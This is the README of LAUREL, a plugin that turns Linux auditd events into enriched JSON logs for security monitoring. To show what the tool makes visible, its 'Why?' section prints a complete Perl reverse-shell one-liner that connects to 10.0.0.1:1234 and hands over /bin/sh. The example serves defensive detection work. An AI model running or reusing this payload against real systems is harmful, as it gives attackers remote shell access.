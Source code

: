 ![logo](laurel.svg)
# Linux Audit – Usable, Robust, Easy Logging

[![Build Status](https://github.com/threathunters-io/laurel/actions/workflows/build.yml/badge.svg)](https://github.com/threathunters-io/laurel/actions/workflows/build.yml)

LAUREL is an event post-processing plugin for _auditd(8)_ that generates useful, enriched JSON-based audit logs suitable for modern security monitoring setups.

Documentation corresponding to the latest stable release can be found [here](https://github.com/threathunters-io/laurel/tree/v0.7.2).

## Why?

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…_LAUREL_ turns them into JSON logs where the mess that attackers/penetration testers/red teamers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
This happens at the source because _LAUREL_ runs on the host where the audit events are generated. Events are enriched with useful information about the parent process (ppid):
```
"PPID":{"EVENT_ID":"1643635026.276:327308","comm":"sh","exe":"/usr/bin/dash","ppid":3190631}
```

## Documentation

Configuration and operational details are described in the [laurel(8)](man/laurel.8.md) manual page.
Details about the log format and rationales can be found in the [laurel-about(7)](man/laurel-about.7.md) manual page. The [laurel-audit-rules(7)](man/laurel-audit-rules.7.md) page contains advice and examples for configuring audit rules useful for detecting attackers' tactics.

The [_LAUREL_ installation instructions](INSTALL.md) contain instructions on how to build _LAUREL_ from source and how to install and configure it.

We developed _LAUREL_ because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to the [Performance](performance.md) document for details.

## See also

- [ansible-auditd-laurel](https://github.com/certeu/ansible-auditd-laurel/), an Ansible role to deploy _auditd_ + _laurel_, by @0xFustang / CERT-EU

## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>

The logo was created by Birgit Meyer <<hello@biggi.io>>.
